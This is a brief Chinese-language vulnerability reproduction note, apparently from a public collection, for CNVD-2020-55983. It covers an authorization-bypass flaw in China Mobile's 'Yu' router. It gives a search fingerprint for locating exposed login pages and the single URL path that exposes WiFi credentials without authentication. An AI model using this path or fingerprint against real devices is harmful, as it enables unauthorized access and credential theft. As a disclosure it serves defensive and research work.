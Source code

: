 # 中国移动 禹路由 simple-index.asp 越权访问漏洞 CNVD-2020-55983

# 中国移动 禹路由 simple-index.asp 越权访问漏洞 CNVD-2020-55983

## 漏洞描述

中国移动 禹路由 simple-index.asp 存在越权访问漏洞，攻击者通过漏洞可以获取账号密码等敏感信息

## 漏洞影响

```
中国移动 禹路由
```

## 网络测绘

```
title="互联世界 物联未来-登录"
```

## 漏洞复现

登录页面如下

![](/images/202202162253135.png)



访问Url

```plain
/simple-index.asp
```

![](/images/202202162253346.png)

越过管理员验证获取Wifl账号密码等信息

